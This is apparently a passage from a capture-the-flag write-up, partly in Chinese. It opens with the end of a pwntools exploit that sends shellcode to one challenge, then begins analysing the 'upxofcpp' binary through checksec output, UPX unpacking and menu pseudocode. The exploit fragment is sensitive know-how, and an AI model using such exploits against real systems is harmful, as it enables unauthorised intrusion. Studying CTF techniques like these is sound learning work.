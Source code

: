```python
syscall
""")
r.sendafter('give me shellcode, plz:\n', sc)

r.interactive()
```



### upxofcpp

```
// file
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=086b20bf8a2c24df642c0642bd3aa5999f90dd7d, stripped

// checksec
[!] Did not find any GOT entries
[*] '/home/u1f383/tmp/pwn/pwn-upxofcpp/upxofcpp'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
```

可以發現 check 顯示的 `Packer` 為 UPX，而 UPX 有提供 unpack 的功能 `upx -d <binary>`，解完後的到原真正的 binary:

```
// checksec
[*] '/home/u1f383/tmp/pwn/pwn-upxofcpp/upxofcpp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

pseudo code:

```c++
banner();

while (true) {
	cout << "1. Add a vec" << endl;
    cout << "2. Remove a vec" << endl;
    cout << "3. Edit a vec" << endl;
    cout << "4. Show a vec" << endl;
    cout << "Your choice:" << endl;
    cin >> choice;

    switch (choice): {
        case 1:
            add_1420();
            break;
        case 2:
            remove_1670();
            break;
        case 3:
            edit_1730(); // not implement
            break;
        case 4:
            show_17F0();
            break;
        default:
```